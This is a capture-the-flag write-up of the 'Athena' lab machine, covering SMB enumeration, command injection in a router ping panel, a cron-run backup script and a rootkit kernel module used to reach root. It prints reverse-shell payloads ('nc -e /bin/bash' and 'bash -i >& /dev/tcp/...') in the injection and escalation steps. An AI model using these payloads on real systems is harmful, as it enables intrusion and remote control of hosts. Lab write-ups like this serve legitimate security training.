 # Athena

![53d3c28c1af197142685ceb238d5ce3c](https://github.com/7h30ry/Writeups/assets/51336409/fc9c112a-73f2-41f0-b002-3661fc7f41de)

## Port Sacn

![Screenshot from 2023-09-19 22-04-24](https://github.com/7h30ry/Writeups/assets/51336409/39514405-1cdc-4a53-bea7-3d1fcca9e2a2)

Seeing that there is port 80, i visited the web page

![Screenshot from 2023-09-19 22-06-23](https://github.com/7h30ry/Writeups/assets/51336409/8eec765a-3729-4c52-a694-6a1b11d6c0b4)

I searched through but not, so i checked the smb port
```
smbclient -L //ip//
```
![Screenshot from 2023-09-19 22-09-12](https://github.com/7h30ry/Writeups/assets/51336409/09c18c1b-f29f-402d-b665-882fefcad1dd)

```
smbclient //ip/public
```
![Screenshot from 2023-09-19 22-10-47](https://github.com/7h30ry/Writeups/assets/51336409/5c8f6bfc-36e2-4e2b-96e3-9ec88f4bf81c)

reading the msg_for_administrator.txt file

![Screenshot from 2023-09-19 22-12-41](https://github.com/7h30ry/Writeups/assets/51336409/e92a50ab-ec09-4c84-bf25-8be9b3ff8d52)

## Command Injection

So i visited the /myrouterpanel directory on the web

![Screenshot from 2023-09-19 22-14-29](https://github.com/7h30ry/Writeups/assets/51336409/68f6462c-d607-4a43-b6ae-23151c1d7b40)

Seeing this what came to my mind was Command injection

I firstly checked if the ping function was working

![Screenshot from 2023-09-19 22-16-13](https://github.com/7h30ry/Writeups/assets/51336409/997e0a70-a86d-447c-a861-872530e1ed5d)

Seeing that the ping is working i tried ```127.0.0.1;ls``` ```127.0.0.1| ls```  payload but it did not 

![Screenshot from 2023-09-19 22-18-25](https://github.com/7h30ry/Writeups/assets/51336409/0cf2028f-28e4-45de-9c1d-7dea43eee70e)

After some tries i was able to bypas it with
```
$(command)
```
so in order to get an RCE i used

```
$(nc <lhost> <lport> -e /bin/bash)
```

![Screenshot from 2023-09-19 22-22-37](https://github.com/7h30ry/Writeups/assets/51336409/9967ed89-3183-483b-ac03-a39523de82b3)

I tried accessing the /home/athena directory i keep getting Permission denied

## Privilege escalation to athena

```
find / -user 'athena' 2>/dev/null
```

![Screenshot from 2023-09-19 22-26-29](https://github.com/7h30ry/Writeups/assets/51336409/970f2897-c9e9-47b1-98ad-9a3972b727ba)

we se a /usr/share/backup directory which has a backup.sh file in it

![Screenshot from 2023-09-19 22-28-12](https://github.com/7h30ry/Writeups/assets/51336409/66c7cc7f-e418-4dc4-801f-63f1ac472904)

Guessing there is process runing the backup.sh file i decided to add a reverse shell inside the backup.sh file

```
echo 'bash -i >& /dev/tcp/<lhost>/4444 0>&1' >> backup.sh
```
start a listener on 4444

After a while i got a reverse shell as athena

![Screenshot from 2023-09-19 22-28-12](https://github.com/7h30ry/Writeups/assets/51336409/9b6a1bec-64d3-4b4a-bbb3-5d6804f27577)


## Root

Trying sudo -l

![Screenshot from 2023-09-19 22-34-14](https://github.com/7h30ry/Writeups/assets/51336409/dd87a0a5-3129-4aea-b358-3db14e2b2ca8)

we see that we can run 
```(root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko```

## USE Ghidra: to reverse the venom.ko file

after some reversing, we notice the ```hacked_kill``` function :

![ghidra](https://github.com/7h30ry/Writeups/assets/51336409/15e74320-f334-41f6-a6e0-88ecebf345b2)

we see that in order for give_root() to get called, we need to send a signal 57 instead of 64 as mentioned in the github repository, so this rootkit was slightly modified, let's try again with signal 57 :

the give_root function may work like this kill -57 <pid>, later on the id command reveals that you have root access.

so i started a process with 
```sleep 10 &```

got the process id and typed
```kill -57 -pid```

![Screenshot from 2023-09-19 22-44-19](https://github.com/7h30ry/Writeups/assets/51336409/395a52fb-bc72-4ec9-9ea5-e1d5334e4e75)

Now we got Root !!! 












